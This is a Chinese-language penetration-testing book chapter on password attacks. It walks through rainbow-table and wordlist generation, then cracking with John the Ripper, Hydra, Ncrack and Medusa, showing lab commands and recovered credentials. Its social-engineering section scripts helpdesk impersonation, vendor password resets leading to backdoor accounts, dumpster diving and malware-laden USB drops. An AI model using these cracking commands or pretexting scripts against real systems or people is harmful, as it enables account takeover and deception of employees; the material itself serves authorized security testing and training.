





## 6

## 基于密码的攻击

理解基于密码的攻击是任何渗透测试人员的关键技能。渗透测试人员的工作是查找网络上可能存在的任何弱密码或常见密码，以便在其他人出于恶意目的破解密码之前更改它们。此外，如果这些用户为其用户账户使用弱密码或众所周知的密码，谁知道他们还会将这些密码用于哪些其他系统或超级用户账户？这就是为什么密码破解如此重要。

在本章中，我将介绍密码破解的基本流程，初始任务是生成彩虹表和词表。这些列表是任何破解工具的基础。然后我将使用生成的词表，并在我在实验室中使用的各种密码破解工具中使用它们，目标是发现并报告任何弱密码或常见密码。

本章将讨论以下主题：

- 社会工程实验的重要性
- 使用密码列表和彩虹表
- 密码捕获/破解工具

### 生成彩虹表和词表

彩虹表和词表是任何密码破解软件的基础。彩虹表是预先计算的哈希表，具有某种编码函数，例如 Base64。哈希表是存储在表中的每个单词的哈希值。它们经常被混淆。两者都用于逆向工程密码哈希函数。这些表用于破解密码哈希。彩虹表和哈希表通常用于针对已下载的哈希文件。它们倾向于用于离线攻击。


彩虹表通常非常适合更复杂的密码，而哈希表则更适合简单、常见的密码。词表就是这样：一个将在实时情况下尝试对系统进行攻击的密码列表。因此，词表通常用于在线攻击。

字典攻击是我们试图用这些工具实现的攻击类型。字典攻击使用某种预先计算的字典文件来尝试猜测密码。该攻击通常受其使用的字典文件大小的限制。还有暴力攻击，它与字典攻击类似，但会尝试所有可能的组合，因此可能需要很长时间才能完成。

接下来，我将介绍一些我用于生成彩虹表和词表的实用工具，以及一些在线资源，可以获取他人已创建并认为有用的其他表和词表。表的生成时间取决于表大小，可能需要很长时间，因此如果有人已经生成了一些好的列表，请务必保留这些列表以节省时间。

## 使用 RainbowCrack 创建彩虹表

RainbowCrack 是一个软件包，包含许多工具，其中包括一个用于生成彩虹表的工具，称为 rtgen。还有一些实用工具可以转换彩虹表在不同格式之间的转换，以及 rcrack，它与彩虹表一起用于破解密码。以下是 rtgen 的语法：

```
rtgen hash_algorithm charset plaintext_len_min plaintext_len_max
table_index chain_len chain_num part_index
```

以下是 `rtgen` 的选项说明：

| 选项 | 描述 |
|---|---|
| hash_algorithm | 彩虹表是特定于哈希算法的。特定哈希算法的彩虹表仅有助于破解该类型的哈希。rtgen 程序原生支持大量哈希算法，如 lm、ntlm、md5、sha1、mysqlsha1、halfmd5、ntlmchall、oracle-SYSTEM 和 md5-half。在上面的示例中，我们生成 md5 彩虹表以加快 md5 哈希的破解速度。 |
| charset | 字符集包含明文的所有可能字符。"loweralpha-numeric" 代表 "abcdefghijklmnopqrstuvwxyz0123456789"，在配置文件 charset.txt 中定义。 |
| plaintext_len_min plaintext_len_max | 这两个参数限制彩虹表的明文长度范围。在上面的示例中，明文长度范围为 1 到 7。因此像 "a" 和 "abcdefg" 这样的明文很可能包含在生成的彩虹表中。但长度为 8 的明文 "abcdefgh" 将不会包含在内。 |
| table_index¹ | table_index 参数选择约简函数。使用不同 table_index 参数的彩虹表使用不同的约简函数。 |
| chain_len¹ | 这是彩虹链长度。更长的彩虹链存储更多明文，需要更长的生成时间。 |
| chain_num¹ | 要生成的彩虹链数量。彩虹表只是一个彩虹链数组。每个彩虹链的大小为 16 字节。 |
| part_index | 为了将大型彩虹表存储在多个较小文件中，对每个部分使用此参数中的不同数字，并保持其他所有参数相同。 |

以下是我在实验室生成彩虹表的示例。我将使用 sha256 作为哈希算法，最小长度为 1，最大长度为 7。我还将使用以下命令生成 2,000 条链：

```
root@kali:~# rtgen sha256 loweralpha-numeric 1 7 0 1000 2000 0
rainbow table sha256 loweralpha-numeric#1-7_0_1000x2000_0.rt parameters
hash algorithm: sha256
hash length: 32
charset: abcdefghijklmnopqrstuvwxyz0123456789
charset in hex: 61 62 63 64 65 66 67 68 69 6a 6b 6c 6d 6e 6f 70 71 72 73 74 75 76 77 78 79 7a 30 31 32 33 34 35 36 37 38 39
charset length: 36
plaintext length range: 1 - 7
reduce offset: 0x00000000
plaintext total: 80603140212

sequential starting point begin from 0 (0x0000000000000000)
generating...
2000 of 2000 rainbow chains generated (0 m 0.7 s)
```

生成表后，我将使用 rtsort 对其进行排序。你应该始终对表进行排序，以使其在查找时性能更快。在我的系统上，彩虹表保存在 /usr/share/rainbowcrack。找到你刚刚创建的 .rt 文件，以便我们可以对其进行排序。

以下屏幕截图显示了我对表的排序：

```
root@kali:/usr/share/rainbowcrack# rtsort *.rt
sha256 loweralpha-numeric#1-7_0_1000x1000_0.rt:
1138417664 bytes memory available
loading rainbow table...
sorting rainbow table by end point...
writing sorted rainbow table...

sha256 loweralpha-numeric#1-7_0_1000x2000_0.rt:
1138417664 bytes memory available
loading rainbow table...
sorting rainbow table by end point...
writing sorted rainbow table...
```

现在表已创建并排序，你新建的彩虹表已准备好用于破解你选择的哈希。

## 生成词表

另一个随 Kali Linux 安装的优秀密码实用工具是 Crunch。Crunch 是一个词表生成器，根据你传递给它的条件生成词表。这些条件包括单词的最小和最大长度以及要使用的字符，仅举几例。你可以输出生成的词表，并在接受词表的其他密码破解程序中使用它。

使用 Crunch 并不是一个复杂的过程。以下是基本语法：

```
crunch <min-len> <max-len> [<character set>] {options}
```

这里有一个示例：

```
crunch 5 8 abcdefg12345 -o wordlist.txt
```

在以下屏幕截图中，我将生成一个最小为三个字符、最大为五个字符的词表。我不会指定任何模式，因此将使用默认字符集。-o 将允许我指定名为 wordlist.txt 的文件作为输出：



如果我查看该文件，我可以看到 Crunch 如何创建词表：

```
root@pi-kali:~/META# cat wordlist.txt | more
AAA
aab
aac
aad
aae
aaf
aag
aah
aai
aaj
aak
aal
aam
aan
```

## 在线位置

即使你有能力创建自己的词表和彩虹表，网上也有许多网站可以获取预建列表。准备好其他可供使用的列表可以节省时间和处理能力。与互联网上的任何事物一样，请确保你从有效且合法的网站获取这些列表。以下是此类网站的两个示例：

- Openwall: http://download.openwall.net/pub/passwords/wordlists/
- Hashcat: https://hashcat.net/wiki/doku.php?id=example_hashes

如今流行的另一个趋势是创建基于目标的词表。

这些与我们之前创建的其他词表有何不同？嗯，它们倾向于用于特定的目标，我们知道他们可能有一组特定的单词用于密码，而不是随机列表。这些词表用于针对特定个人的非常具体的攻击，因此是定向攻击。使用各种工具，你可以通过指定你认为属于该用户密码的某些单词来影响生成的词表。示例可以是宠物名称、子女姓名、其他家庭成员姓名、度假胜地等等。这些只是可能选项中的几个。这些攻击往往非常成功，因为你已经对用户的可能密码有所了解，但它们确实需要事先进行背景调查和可能的社交工程来获得此类知识。CUPP 是此类词表的非常流行的工具，可以在这里获取 https://github.com/Mebus/cupp.git。

## 破解实用工具

密码破解可以定义为基于已存储在系统上或已通过系统传输的数据恢复密码的过程。有许多不同的技术可以实现这一目标，包括以下几种类型：

- **暴力破解攻击**: 系统地尝试尽可能多的字符组合来破解密码。
- **字典攻击**: 在实用工具中使用字典中的单词来尝试破解密码。
- **彩虹表攻击**: 使用彩虹表尝试匹配操作系统密码哈希文件中找到的哈希。彩虹表包含哈希及其对应的密码。
- **密码猜测**: 利用对最终用户的了解，严格基于最佳猜测来尝试破解其密码。
- **钓鱼攻击**: 诱骗用户输入其凭据，或从他们那里窃取凭据。

使用以下工具，我将演示其中一些技术，看看是否能在我的实验室网络上破解一些密码。


## John the Ripper

John the Ripper 是一款快速且功能丰富的密码破解工具，设计用于在多种不同的哈希类型和系统上工作。这就是它成为一种广泛使用的工具的原因。

John the Ripper 的另一个很酷的小功能是它还包含一些通知实用程序，旨在通知用户其密码是否弱或 John the Ripper 是否已实际破解它。这些信息对于渗透测试人员来说非常适合包含在提交给利益相关者的最终渗透报告中。但功能就说到这里了；让我们看看如何使用此工具。

你应该执行的第一项任务是查看 John the Ripper 的主页面。有很多命令行开关可以让你根据要破解的系统类型更改工具的功能。以下是 John the Ripper 的语法：

```
john [OPTIONS] [PASSWORD-FILES]
```

以下是各种选项的列表：

```
--single=[SECTION]          "single crack" mode
--wordlist=[FILE] --stdin   wordlist mode, read words from FILE or stdin
--pipe                      like --stdin, but bulk reads, and allows rules
--loopback=[FILE]           like --wordlist, but fetch words from a .pot file
--dupe-suppression          suppress all dupes in wordlist (and force preload)
--prince=[FILE]             PRINCE mode, read words from FILE
--encoding=NAME             input encoding (eg. UTF-8, ISO-8859-1). See also doc/ENCODING and --list=hidden-options.
--rules=[SECTION]           enable word mangling rules for wordlist modes
--incremental=[MODE]        "incremental" mode [using section MODE]
--mask=MASK                 mask mode using MASK
--markov[=OPTIONS]          "Markov" mode (see doc/MARKOV)
--external=MODE             external mode or word filter [not available]
--stdout[=LENGTH]           just output candidate passwords [cut at LENGTH]
--restore=[NAME]            restore an interrupted session [called NAME]
--session=NAME              give a new session the NAME
--status=[NAME]             print status of a session [called NAME]
--make-charset=FILE         make a charset file. It will be overwritten
--show[=LEFT]               show cracked passwords [if =LEFT, then uncracked]
--test[=TIME]               run tests and benchmarks for TIME seconds each
--users=[-]LOGIN|UID|...    [do not] load this (these) user(s) only
--groups=[-]GID|...         load users [not] of this (these) group(s) only
--shells=[-]SHELL|...       load users with[out] this (these) shell(s) only
--salts=[-]COUNT[:MAX]      load salts with[out] COUNT [to MAX] hashes
--save-memory=LEVEL         enable memory saving, at LEVEL 1..3
--node=MIN[-MAX]/TOTAL      this node's number range out of TOTAL count
--fork=N                    fork N processes
--pot=NAME                  pot file to use
--list=WHAT                 list capabilities, see --list=help or doc/OPTIONS
--format=NAME               force hash of type NAME. The supported formats can be seen with --list=formats and --list=subformats
```

我将使用我在上一章中入侵的 Linux 主机上通过 Meterpreter 获得的 shadow 和 passwd 文件，并尝试通过 John the Ripper 破解密码。以下是我在实验室中的步骤：

1. 我需要将 shadow 和 passwd 文件合并到一个文件中：

```
root@pi-kali:~/META# ls
passwd shadow
root@pi-kali:~/META# ls -al
total 16
drwxr-xr-x 2 root root 4096 Feb 15 19:45 .
drwx------ 20 root root 4096 Feb 15 18:53 ..
-rw-r--r-- 1 root root 1581 Feb 15 18:48 passwd
-rw-r--r-- 1 root root 1207 Feb 15 19:45 shadow
root@pi-kali:~/META# unshadow passwd shadow > server-META.txt
```

2. 然后，使用该文件，我可以开始对它运行 John the Ripper。由于我没有指定任何哈希类型，它将尝试自动检测它们。我也不会指定要运行的模式，因此它将首先尝试单次破解模式，然后是词表模式，最后是增量模式：

```
root@pi-kali:~/META# john server-META.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "aix-smd5"
Use the "--format=aix-smd5" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 7 password hashes with 7 different salts (md5crypt, crypt(3) $1$ [MD5 32/32 X2])
Press 'q' or Ctrl-C to abort, almost any other key for status
postgres      (postgres)
user          (user)
msfadmin      (msfadmin)
service       (service)
123456789     (klog)
batman        (sys)
```

3. 完成时，或在破解过程中（如果仍在运行且耗时较长），你可以检查是否已破解任何密码。你只需指定 -show 命令即可让 John the Ripper 输出当前密码破解情况。以下是显示我入侵的 Linux 盒子上已破解账户的屏幕截图：

```
root@pi-kali:~# john --show META/server-META.txt
sys:batman:3:3:sys:/dev/sh
klog:123456789:103:104::/home/klog:/bin/false
msfadmin:msfadmin:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash
postgres:postgres:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
user:user:1001:1001:just a user,111,,:/home/user:/bin/bash
service:service:1002:1002:,,,:/home/service:/bin/bash

6 password hashes cracked, 1 left
```

正如你所见，John the Ripper 使破解密码变得非常容易，用户几乎不需要输入。当涉及到使用一些命令行开关搜索已破解的密码时，你还可以做一些更高级的事情，以帮助在大型密码文件上更轻松。例如，你可以按 UID、GID 甚至 shell 进行搜索。在下面的屏幕截图中，我想查看所有使用 bash shell 的已破解用户：

```
root@pi-kali:~# john --show --shells=bash META/server-META.txt
msfadmin:msfadmin:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash
postgres:postgres:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
user:user:1001:1001:just a user,111,,,:/home/user:/bin/bash
service:service:1002:1002,,,:/home/service:/bin/bash
4 password hashes cracked, 1 left
```


根据你运行任何密码破解实用程序的硬件的强大程度，破解密码所需的时间可能会有所不同。如果内部系统不太强大，像我这种情况使用 Raspberry Pi，我只需用它来提取必要的文件，然后在我的 C&C 服务器上运行破解软件。

## THC-Hydra

Hydra 是一款很棒的密码破解工具，可以在桌面机器上运行的 Kali 系统上运行，甚至可以在 Raspberry Pi 上运行的 Kali 上运行。它允许你并行运行破解。这使得应用程序可以更快地扩展，并且每分钟可以进行尽可能多的尝试。你也可以控制这个数字，并且 Hydra 会在你运行破解时通知你何时需要更改这个数字。这在一定程度上也取决于你尝试破解密码的服务类型。

以下是 THC-Hydra 的语法：

```
hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e nsr] [-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-W TIME] [-f] [-s PORT] [-x MIN:MAX:CHARSET] [-SouvVd46] [service://server[:PORT][/OPT]]
```

以下是选项：

- -l LOGIN or -L FILE  使用 LOGIN 名称登录，或从 FILE 加载多个登录名
- -p PASS  or -P FILE  尝试密码 PASS，或从 FILE 加载多个密码
- -C FILE  以冒号分隔的 "login:pass" 格式，而不是 -L/-P 选项
- -M FILE  要攻击的服务器列表，每行一个条目，':' 指定端口
- -t TASKS  并行运行 TASKS 数目的连接（每个主机，默认：16）
- -U service module usage details
- -h more command line options (COMPLETE HELP)
server - the target: DNS, IP or 192.168.0.0/24 (this OR the -M option)
service - the service to crack (see below for supported protocols)
OPT - some service modules support additional input (-U for module help)

当 Hydra 完成检查并且成功时，你将看到以下屏幕。在我的实验室中，我能够破解该特定主机上 SSH 的 msfadmin 密码：



当 hydra 完成检查时，如果成功，你将看到以下屏幕。在我的实验室中，我能够破解该特定主机上 SSH 的 msfadmin 密码：





根据字表大小和 Hydra 每分钟将使用的尝试次数，此过程可能需要很长时间。在我的一个示例中，遍历约 1.2 百万个单词的整个列表几乎需要 1 周时间。因此请相应计划。有时使用通常使用的密码的较小字表是一个不错的选择，可以进行更快的扫描，并获取使用这些不良密码的用户账户。然后，在时间允许时或同时运行更长的扫描。我的较小的字表扫描不到 1 小时就完成了，并抓取了之前的密码。

Hydra 是一个很棒的工具，因为它易于使用，并且能够攻击其他服务。截至本版本发布时的最新服务列表包括 TELNET, FTP, HTTP, HTTPS, HTTP-PROXY, SMB, SMBNT, MS-SQL, MYSQL, REXEC, irc, RSH, RLOGIN, CVS, SNMP, SMTP, SOCKS5, VNC, POP3, IMAP, NNTP, PCNFS, XMPP, ICQ, SAP/R3, LDAP2, LDAP3, Postgres, Teamspeak, Cisco auth, Cisco enable, AFP, Subversion/SVN, Firebird, LDAP2, Cisco AAA.


## Ncrack

Ncrack 是一款功能强大且速度快的密码破解工具，旨在破解 RDP、SSH、HTTP(S)、SMB、pop3(s)、VNC、FTP 和 Telnet 等基于网络的服务的密码。使用 Ncrack，你可以通过 NMAP 或从文件中导入主机列表。此外，你还可以调整不同的时序和性能设置，例如连接限制、重试次数和超时时间。IPv6 也得到支持，如果你攻击的是 IPv6 网络，这是一个很棒的功能。下面是运行 ncrack 的选项。你会注意到选项很多，因为 ncrack 是一个极其强大且可定制的工具：

```
Usage: ncrack [Options] {target and service specification}
```

有很多选项和目标及服务规范需要理解。一定要查看主页面以全面了解列表。

在我的实验环境示例中，我将破解一份主机列表，其中主机列在文件 hosts.txt 中。由于我知道它们都是 Linux 主机，我将指定用户为 root，并将密码列表指定为 generic-passwords.txt。我还将指定连接限制为四个并行任务：

```
root@kali:~# ncrack -v -iL hosts.txt --user root -P generic-passwords.txt -p ssh CL=4

Starting Ncrack 0.5 ( http://ncrack.org ) at 2017-02-07 15:02 EST

Discovered credentials on ssh://192.168.33.27:22 'root' 'toor'
Discovered credentials on ssh://192.168.33.123:22 'root' 'P@55w0rd'
ssh://192.168.33.27:22 finished.
ssh://192.168.33.123:22 finished.

Discovered credentials for ssh on 192.168.33.27 22/tcp:
192.168.33.27 22/tcp ssh: 'root' 'toor'
Discovered credentials for ssh on 192.168.33.123 22/tcp:
192.168.33.123 22/tcp ssh: 'root' 'P@55w0rd'

Ncrack done: 2 services scanned in 45.00 seconds.
Probes sent: 203 | timed-out: 0 | prematurely-closed: 43

Ncrack finished.
```

我真的很喜欢使用 ncrack，因为它在指定主机列表与对每个主机进行单独扫描之间具有灵活性。这使得对网络中已知的密码进行审计变得更容易。

## Medusa

Medusa 与 THC-Hydra 非常相似。它是一款轻量但功能强大的密码破解工具。它是多线程的，这使其能够同时扫描多个主机；事实上，如果你使用主机列表，每个主机都会生成一个单独的子进程。它支持大量协议，包括 AFP、CVS、FTP、HTTP、IMAP、MS-SQL、MySQL、NetWare NCP、NNTP、pcAnywhere、POP3、PostgreSQL、REXEC、RLOGIN、RSH、SMBNT、SMTP-AUTH、SMTP-VRFY、SNMP、SSHv2、Subversion (SVN)、Telnet、VMware Authentication Daemon (vmauthd)、VNC、Generic Wrapper 和 Web Form。

以下是 Medusa 的语法：

```
Medusa [-h host|-H file] [-u username|-U file] [-p password|-P file] [-C file] -M module [OPT]
```

关于该命令可用的选项，请查看 medusa 的主页面，或使用 medusa --help。有许多开关可以使该命令更加强大。

在我的实验环境示例中，我将使用 medusa 扫描与 Ncrack 相同的该主机列表。我还将使用相同的词表。此处的目标是看看 medusa 是否也能破解 ncrack 破解过的相同主机：



正如你所见，medusa 也成功破解了两个主机的密码。事实上，这在 10 秒以内就完成了。由于其速度和有效性，Medusa 绝对是首选的密码破解工具。

## Social engineering experiments

员工或用户通常被认为是安全中最薄弱的环节，并且通常是当今任何组织的最大威胁。他们不太可能精通安全最佳实践，而且通常也不在乎。他们更关心的是尽可能快速、轻松地完成工作。因此，这很容易被利用。

作为我们渗透测试的一部分，我将向你展示一些围绕密码设计的社会工程攻击示例。哈希密码或猜测密码可能很困难，并且可能需要很长时间，但通常是可以完成的。但是，如果我能让用户直接把密码给我，这将让我在长远来看节省大量工作。这就是社会工程攻击之所以重要，以及我现在将讨论三种不同攻击类型的主要原因。


社会工程攻击本身就值得一本书。我将介绍三种我在现实世界中看到效果很好的示例，但这绝不是一个全面的列表。作为渗透测试人员，找出你正在运行测试的环境中的漏洞，以及员工的安全意识。基于这些信息，制定一些社会工程攻击来测试这些用户。

### Impersonation to get the goods

冒充他人是目前最流行的社会工程攻击之一。根据公司的业务线，被冒充的对象或内容会有所不同，但它们都有相同的期望结果：用户的密码。

以下是作为你在进行渗透测试的一部分的社会工程测试中可以进行的两个场景：

### Scenario 1

你已经做了必要的调研，以了解你要渗透的组织的组织结构。这可以基于你提供的文档或通过各种方法获得的信息。但基于这些信息，你已经锁定了一个特定个人。你对这个人的了解将使你知道他们可以访问你想要尝试获取的特定数据（或在渗透测试的情况下，只是测试你是否能获取到）。

所以在我的例子中，我打电话给他们并冒充公司 IT 帮助台的人员。我让用户知道我看到他们的 workstation 正在向互联网建立奇怪的连接，并且我需要他们的用户名和密码来验证他们没有任何问题。我让它听起来非常专业，并且此事至关重要。用户在大多数情况下会提供他们的信息，特别是如果你锁定了正确的人。

### Scenario 2

你试图获取由第三方共同管理的某些服务器的 root 访问权限。你知道这些服务器上存储了一些信息，并且你想测试是否能获取到。我打电话给第三方的帮助台并告知他们我的笔记本电脑坏了，我有一台新的，但我不再保存密码，所以需要更改。我让他们知道这是一场紧急情况，他们需要在我通话时尽快更改密码，因为公司的其中一个应用程序已宕机，公司无法在应用程序宕机的情况下开展业务。在足够的压力和紧迫性下，许多公司会重置该密码，并允许你登录并创建后门账户，以防真正的管理员需要再次重置密码。

### Dumpster diving

这听起来可能像是一次令人厌恶的遭遇，相信我，确实可能如此。但在这种情况下，风险绝对值得回报。很多公司没有非常严格的碎纸规则。他们可能有碎纸程序，但他们依赖用户执行此任务，并将纸张放入碎纸箱而不是普通垃圾桶。现在，根据我的发现，不同部门往往在遵循这些碎纸政策的程度上有所不同。通常，会计或计费部门在这方面做得很好，因为这些部门往往有更多关于碎纸的培训，而且它们周围往往有更多的碎纸箱。但对于其他部门来说，这往往是执行不力的政策。系统和网络组在这方面往往非常松懈。通常，他们的桌子周围散落着各种信息，包括密码的纸片。这些纸片经常在桌子上放一段时间，而在匆忙清理时，它们就被扔进了垃圾桶。这就是风险得到回报的地方。翻找垃圾可以获得各种信息。诸如网络图、密码、服务器信息、项目计划等信息。在这种情况下，世界就是你的牡蛎。


垃圾箱翻找并不一定要字面意义上跳进垃圾箱里翻找。可以通过贿赂或为清洁人员工作，然后把垃圾带到你要搜索的地方，而不是直接在垃圾箱里翻找。有很多选择比在垃圾堆里游泳寻找黄金要温和得多。

## Free USB drives for all!!

坦白说：人们喜欢免费的东西，尤其是他们找到的免费东西。社会工程攻击的经典例子就是买一大堆U盘，外观越花哨或酷炫越好。然后拿它们并在上面安装一些恶意软件，甚至可能是 Rubber Ducky 软件或其他类型的恶意软件。基本上，你需要的是插入时就能执行必要任务的软件；这可能包括键盘记录、更改系统设置、打开后门或发起反向 Shell。

一旦你把U盘都设置好并加载了你当下的软件，就只需要把它们带到你要测试的企业，在我们这里，是我们正在进行渗透测试的公司的其中一个地点。一旦进入停车场，就在停车场各处把U盘随意放在车门附近。放置好后，坐下来等待。大多数用户会出于纯粹的好奇心捡起来并插入电脑。这就是我们所押注的。这在大多数情况下都有效，并且会在最终的渗透测试报告中提供一些不错的发现。

## Summary

现在我们已经到达第 6 天的结尾，让我们回顾一下我们讨论的内容。本章全部关于基于密码的攻击。我在章节开始时谈到了彩虹表和词表。我讨论了一些我在实验室中使用的工具，例如 RainbowCrack 和 Crunch，用于生成自己的词表和彩虹表。我还讨论了一些在线获取这些资源的其他方法。在创建了这些列表之后，我讨论了我测试中使用的几个破解工具。这些工具包括 John the Ripper、THC-Hydra、Medusa，最后是 Ncrack——所有这些都是让密码破解变得容易的优秀工具。

最后，我以讨论社会工程实验结束了本章，这可能是破解密码最简单的方法，也就是让用户自己把密码交给你。

在下一章，我将讨论并展示对基础设施的攻击。这将包括有线、无线和基于蓝牙的攻击，以及用于有效执行这些攻击的各种工具。
